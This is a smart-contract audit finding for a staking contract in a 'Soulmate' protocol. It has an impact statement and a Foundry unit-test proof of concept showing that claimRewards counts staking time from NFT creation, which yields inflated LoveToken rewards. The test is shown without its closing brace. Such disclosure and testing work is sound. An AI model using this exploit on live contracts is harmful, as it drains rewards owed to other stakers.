 ## Impact
It affects the normal functioning of the Staking contract as users will received extra rewards for their staked amount because the time of staking is incorrectly calculated from the soulmate NFT creation timestamp instead of actual staking.

## PoC
Add the test in the file: `test/unit/StakingTest.t.sol`

Run the test:
```cpp
forge test --mt test_ClaimRewards_ConsiderLastClaimFromNftCreation_LeadingToExtraRewards -vv
```
```cpp
function test_ClaimRewards_ConsiderLastClaimFromNftCreation_LeadingToExtraRewards() public {
    // ---------------- Setting Up For Test to claim LoveToken ❤️ -------------------------        
    vm.prank(soulmate1);
    soulmateContract.mintSoulmateToken();  // 💖

    uint256 relationshipCreationTime = block.timestamp;

    vm.prank(soulmate2);
    soulmateContract.mintSoulmateToken();  // ❤️

    vm.warp(block.timestamp + 1 days);

    // soulmate1 collects their airdrop for 1 day of being into relation
    vm.prank(soulmate1);
    airdropContract.claim();

    // soulmate1 now has 1 LoveToken ❤️
    assertEq(loveToken.balanceOf(soulmate1), 1e18);

    // -------------------------- Actual Testing For Staking Begins ---------------------------

    // 123 days later
    vm.warp(block.timestamp + 123 days);

    // soulmate1 deposits 1 LoveToken ❤️ 
    vm.startPrank(soulmate1);
    loveToken.approve(address(stakingContract), 1e18);
    stakingContract.deposit(1e18);
    vm.stopPrank();

    // 1 week later
    vm.warp(block.timestamp + 1 weeks);

    uint256 balanceBeforeClaim = loveToken.balanceOf(soulmate1);

    // claim the rewards
    vm.prank(soulmate1);
    stakingContract.claimRewards();

    // now according to the rule, for 1 token deposited for 1 week, 1 LoveToken should be rewarded
    // but protocol considers the staking time from nft formation time, instead of the actual time at which token was staked
    // leading to extra rewards (more than 1 LoveToken)
    uint256 rewardsClaimed = loveToken.balanceOf(soulmate1) - balanceBeforeClaim;
    assert(rewardsClaimed > 1e18);

    // as it considers the time from relationship formation instead of actual staking time
    // therefore total token awarded will be (weeks into relationship * 1 LoveToken)
    uint256 weeksInRelation = (block.timestamp - relationshipCreationTime) / 1 weeks;
    assertEq(rewardsClaimed, weeksInRelation * 1e18);
```